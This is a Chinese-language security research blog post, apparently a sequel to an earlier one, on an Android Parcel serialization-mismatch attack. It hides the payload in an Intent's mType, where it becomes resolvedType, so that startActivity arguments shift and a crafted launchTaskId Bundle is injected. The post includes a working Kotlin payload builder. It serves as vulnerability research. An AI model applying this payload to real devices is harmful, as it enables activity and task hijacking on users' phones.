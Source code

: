 ```yaml
---
layout: post
title: 'Creator Mismatch 续'
published: true
---
```


## ReferrerIntent

上文中使用了 `LabeledIntent` 作为 Intent 的子类来完成序列化不对称攻击, 里面说明了不选择 `ReferrerIntent` 的理由, 因为 `ReferrerIntent` 只多出一个 String16 的字段是我们可以控制的, 如下

```java
    public void writeToParcel(Parcel dest, int parcelableFlags) {
        super.writeToParcel(dest, parcelableFlags); // Intent
        dest.writeString(mReferrer); // 多出一个 String16
    }
```

和 `IActivityTaskManager.startActivity` 的参数做一个对比

```java
    Intent _arg3 = data.readTypedObject(android.content.Intent.CREATOR); // ReferrerIntent.mIntent
    java.lang.String resolvedType = data.readString(); // ReferrerIntent.mReferrer
    android.os.IBinder resultTo = data.readStrongBinder(); // resolvedType
    java.lang.String resultWho = data.readString(); // ...
    int requestCode = data.readInt();
    int flags = data.readInt();
    android.app.ProfilerInfo profilerInfo = data.readTypedObject(android.app.ProfilerInfo.CREATOR);
    android.os.Bundle options = data.readTypedObject(android.os.Bundle.CREATOR);
```

这个 String16 马上就被 `resolvedType` 消耗掉, 导致只能利用 `ChooseTypeAndAccountActivity` 自己提供的参数的错位来完成利用, 但是跟一下源码你会发现,其实 `resolvedTyped` 也刚好是我们可以控制的,如下

```java
// Instrumentation.execStartActivity
int result = ActivityTaskManager.getService().startActivity(whoThread,
                who.getOpPackageName(), who.getAttributionTag(), intent,
                intent.resolveTypeIfNeeded(who.getContentResolver()), // ⬅️ resolvedType
                token,
                target != null ? target.mEmbeddedID : null, requestCode, 0, null, options);
```

```java
// Intent.resolveTypeIfNeeded
public @Nullable String resolveTypeIfNeeded(@NonNull ContentResolver resolver) {
      // Match logic in PackageManagerService#applyEnforceIntentFilterMatching(...)
      if (mComponent != null && (Process.myUid() == Process.ROOT_UID
              || Process.myUid() == Process.SYSTEM_UID
              || mComponent.getPackageName().equals(ActivityThread.currentPackageName()))) {
          return mType; // ⬅️
      }
      return resolveType(resolver); // ⬇️
}

public @Nullable String resolveType(@NonNull ContentResolver resolver) {
     if (mType != null) {
         return mType; // ⬅️
     }
     if (mData != null) {
         if ("content".equals(mData.getScheme())) {
             return resolver.getType(mData);
         }
     }
     return null;
}
```

也就是说 ChooseTypeAndAccountActivity 提供给 ActivityTaskManagerService 的 resolvedType 参数, 其实也可以从 Intent 参数里面获取的, 这样就可以把 payload 全部藏在 resolvedType (即 intent.mType)中, 由于只涉及修改一个 String16 字段,整个 payload 的构造更简单, 如下

```kotlin
   fun referrerIntent(): ReferrerIntent {
        val payload = Parcel.obtain().apply {
          writeInt(fixme(72)) //  -> string length, first part of binder

          // remain binder parts
          writeInt(2)
          writeInt(3)
          writeInt(4)
          writeInt(5)
          writeInt(6)

          writeString(null) // resultWho
          writeInt(0) // requestCode
          writeInt(0) // flags
          writeTypedObject(null, 0) // profiler info

          run {  // bundle
            writeInt(1) // typed object indicator
            writeInt(fixme(148)) // bundle back patch length
            writeInt(Const.BundleMagic)  // "BNDL"
            writeInt(2) // entry count
            writeString("android.activity.launchTaskId") // key 1
            writeValue(taskId) // value 1
            writeString("_") // key 2
            run { // value 2
              writeInt(Const.ValByteArray)
              writeInt(fixme(56)) // byte array length
              writeInt('@'.code) // 0
              writeInt(0) // String16 terminator and padding
            }
          }
        }
        payload.setDataPosition(0)
        val intent = intentFor<LoginActivity>().setType(payload.readString())
        return ReferrerIntent(intent, null)
      }
```

看一下效果

![Alt text](/assets/images/tasks-before.png)

![Alt text](/assets/images/tasks-after.png)

